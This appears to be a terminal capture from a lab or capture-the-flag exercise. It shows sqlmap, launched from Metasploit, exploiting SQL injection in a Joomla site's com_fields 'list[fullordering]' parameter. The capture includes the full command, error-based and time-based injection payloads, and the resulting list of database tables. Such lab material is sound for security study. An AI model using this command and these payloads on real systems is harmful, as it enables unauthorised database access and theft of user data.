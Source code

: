 ```bash
msf5 auxiliary(scanner/http/joomla_version) > sqlmap -u "http://10.10.162.223/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -p 'l
ist[fullordering]' --risk=3 --level=5 --random-agent --proxy http://127.0.0.1:8080 --technique=TE --dbms=MySQL -D joomla --tables
[*] exec: sqlmap -u "http://10.10.162.223/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -p 'list[fullordering]' --risk=3 --level=
5 --random-agent --proxy http://127.0.0.1:8080 --technique=TE --dbms=MySQL -D joomla --tables

        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.8#stable}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:26:25 /2020-11-27/
[21:26:25] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (Macintosh; U; PPC Mac OS X; es) AppleWebKit/419 (KHTML, like Gecko) Safari/419.3' from file '/usr/share/sqlmap/data/txt/user-agents.txt'
[21:26:25] [INFO] testing connection to the target URL
[21:26:25] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
you have not declared cookie(s), while server wants to set its own ('eaa83fe8b963ab08ce9ab7d4a798de05=u77g1e9e2sv...580b9vdo65'). Do you want to use those [Y/n] Y    
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: list[fullordering] (GET)                                                                                                                                   
    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 8098 FROM(SELECT COUNT(*),CONCAT(0x71786a6b71,(SELECT (ELT(8098=8098,1))),0x71706b6
271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 9257 FROM (SELECT(SLEEP(5)))iXhJ)
---
[21:26:28] [INFO] testing MySQL
[21:26:29] [INFO] confirming MySQL
[21:26:29] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[21:26:29] [INFO] fetching tables for database: 'joomla'
[21:26:29] [INFO] retrieved: '#__assets'
[21:26:29] [INFO] retrieved: '#__associations'
[21:26:30] [INFO] retrieved: '#__banner_clients'
[21:26:30] [INFO] retrieved: '#__banner_tracks'
...
| #__user_usergroup_map      |
| #__usergroups              |
| #__users                   |
| #__utf8_conversion         |
| #__viewlevels              |
+----------------------------+

[*] ending @ 21:26:37 /2020-11-27/
```
